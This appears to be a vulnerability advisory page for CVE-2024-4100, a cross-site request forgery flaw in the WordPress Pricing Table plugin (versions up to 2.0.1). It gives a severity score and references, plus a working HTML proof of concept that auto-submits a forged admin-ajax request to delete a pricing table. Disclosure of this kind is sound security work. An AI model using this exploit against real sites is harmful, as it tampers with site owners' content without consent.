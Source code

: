 ```yaml
---
layout: page
title: CVE-2024-4100
subtitle: Pricing Table <= 2.0.1 - Cross-Site Request Forgery via ajax()
---
```

## Description
The Pricing Table plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 2.0.1. This is due to missing or incorrect nonce validation on the ajax() function. This makes it possible for unauthenticated attackers to perform a variety of actions related to managing pricing tables via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 5.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:L/A:N)

## Affected Version
    <= 2.0.1

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / x.com/aillesim_ -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="elfsight&#95;pricing&#95;table&#95;widgets&#95;api" />
      <input type="hidden" name="endpoint" value="remove" />
      <input type="hidden" name="id" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/elfsight-pricing-table/pricing-table-201-cross-site-request-forgery-via-ajax
- https://www.cve.org/CVERecord?id=CVE-2024-4100





